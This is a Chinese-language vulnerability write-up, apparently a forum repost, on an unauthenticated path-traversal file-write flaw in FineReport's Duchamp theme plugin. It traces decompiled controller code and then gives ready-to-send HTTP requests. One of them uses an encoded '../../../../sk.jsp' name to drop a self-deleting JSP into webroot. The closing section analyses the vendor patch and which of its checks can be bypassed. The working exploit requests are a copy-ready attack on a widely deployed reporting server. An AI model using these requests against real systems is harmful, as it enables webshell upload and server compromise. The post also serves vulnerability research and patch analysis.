首发qax社区
https://forum.butian.net/article/629
0x01简介
国护爆出来的洞,bi需要手动安装，report自带。利用版本有限，比较垃圾
https://help.fanruan.com/finereport/doc-view-4833.html

很清楚看到，一开始的这个漏洞不需要授权，然后后面有进行目录穿越，和权限。也就是24.8月前的版本存在问题。
0x02 分析
com.fr.plugin.wysiwyg.web.controller.DuchampThemeRequestService

可以看到调用upload方法，上传了
com.fr.plugin.wysiwyg.web.controller.DuchampThemeRequestHelper

首先从请求中获取id，attachID然后判断是否为空。
不为空就去 FVSTemplateStyleConfig去获取我们传入的id，找不到就会报错。
com.fr.plugin.wysiwyg.web.theme.FVSTemplateStyleConfig

来到FVSTemplateStyleConfig中，发现在类加载的时候出忘preStylesMap中put数据，那也就是id就是这里key咯
1
2
3
4
5
6
7
| static {
preStylesMap.put("0e1183e3-4a26-e27d-9e4b-190909fd67a0", "/com/fr/plugin/wysiwyg/web/assets/template/TEMPLATE_PRESET_DARK_1.json");
preStylesMap.put("0946780e-c0b7-839d-5944-8fb840f53450", "/com/fr/plugin/wysiwyg/web/assets/template/TEMPLATE_PRESET_DARK_2.json");
preStylesMap.put("c5bbc3eb-beaa-3926-ff8a-aeb866815284", "/com/fr/plugin/wysiwyg/web/assets/template/TEMPLATE_PRESET_DARK_3.json");
preStylesMap.put("98f6460e-2334-47a7-1081-72a7bd391e56", "/com/fr/plugin/wysiwyg/web/assets/template/TEMPLATE_PRESET_LIGHT_1.json");
}
|
在看到DuchampResourceRequestHelper.getFileFromReq


主要就是request中读入流，然后前后加入一个byte，不用管，最后返回。

然后就是从上一步中获取了文件流，加入到了templateStyle，将attachID和它进行绑定。
然后从metadata的值，将metadata和attachID绑定，这里看到metadata是一个json。传参数用{“”:””} 传咯。
更新FVSTemplateStyleConfig的templateStyle，最后访问id，attachID。
从上面可以看出，我们可以控制一个FVSTemplateStyleConfig的类容。最后需要把他倒入到webroot下就可以完成恶意文件上传咯。
com.fr.plugin.wysiwyg.web.controller.DuchampThemeRequestService

这个理由就符合条件
com.fr.plugin.wysiwyg.web.controller.DuchampThemeRequestHelper

这里就完成了写入，可以看到通过id获取fvsTemplateStyle，然后获取这个fvsTemplateStyle中attachID对应的byte，然后在resource判断有没有有这个attachid，肯定是没有的，继续从fvsTemplateStyle中获取metadata，然后从metadata中获取name的值，若果为空就用attachID + “.png”拼接，这里从metadata取到了，不为空。然后就是进行写入了。
1
| DuchampIO.EDIT_CACHE.write(bean.getTplPath(), name, image);
|
这就有意思了，image是一个byte流可控，name我们可控，没过滤，也就是可以通过”../../“ 穿越写入。这样就完成了对webroot下的jsp写入。
整个流程非常巧妙，反正我觉得现在静态分析是分析不出来的，果然厉害的洞还得人审计。
0x03 复现



/webroot/decision/view/duchamp/theme/list
/webroot/decision/view/duchamp/theme/resource2template
webroot/decision/view/duchamp/theme/attach?id=98f6460e-2334-47a7-1081-72a7bd391e56&attachID=3&metadata=%7b%22%6e%61%6d%65%22%3a%22%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%73%6b%2e%6a%73%70%22%7d
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
| POST /webroot/decision/view/duchamp/theme/attach?id=98f6460e-2334-47a7-1081-72a7bd391e56&attachID=3&metadata=%7b%22%6e%61%6d%65%22%3a%22%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%73%6b%2e%6a%73%70%22%7d HTTP/1.1
Host:
Accept: */*
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cache-Control: max-age=0
Connection: close
Content-Length: 294
Content-Type: multipart/form-data; boundary=c6c05c9386d544159462cae057c4a758
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
<% out.println(11809+76625+"FNjzadubmSaGkeSF");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
| POST /webroot/decision/view/duchamp/theme/resource2template HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: */*
Accept-Charset: GBK, utf-8;q=0.7, *;q=0.3
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN, zh;q=0.8
Cache-Control: max-age=0
Connection: close
Content-Length: 67
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
{"attachIDs": ["3"], "id": "98f6460e-2334-47a7-1081-72a7bd391e56", "reuseIDs": [""], "tplPath": ""}
|
1
2
3
4
5
6
7
8
9
10
11
| GET /webroot/decision/view/duchamp/theme/list HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: */*
Accept-Charset: GBK, utf-8;q=0.7, *;q=0.3
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN, zh;q=0.8
Cache-Control: max-age=0
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
|
0x04 修复方式
1
| uploadTemplateStyleAttach
|

添加一个新函数来判断
可以看到先读入文件流，然后调用进行判断
1
| DuchampResourceRequestHelper.checkFileValid(bufferedInputStream, parseResult.getFileExtension()))
|



可以看到主要就两个方法，一个是从 FILE_HEADER_MAGIC_NUMBER获取，获取到就去判断文件头magicNumber，一样就返回true,不一样就返回false。还有一个没有在FILE_HEADER_MAGIC_NUMBER获取到的值，就去FILE_HEADER_WHITE_LIST里面找，找到就是true，找不到就是false。

对应的后缀以及魔术头。以及白名单后缀。
从上面逻辑可以看到，没什么用，控制文件写入的后缀是metadata中的name。不是在文件流中的后缀，所以我们直接使用白名单的后缀进行绕过就可以完成这里的修复。
写入点



检查了../../，匹配到就报错。


后面还对后缀进行了判断，匹配到就报错

也就是我们可以绕过第一步，第二步是绕过不了的，新版还是认证后才能访问，看起来没什么继续研究的必要了。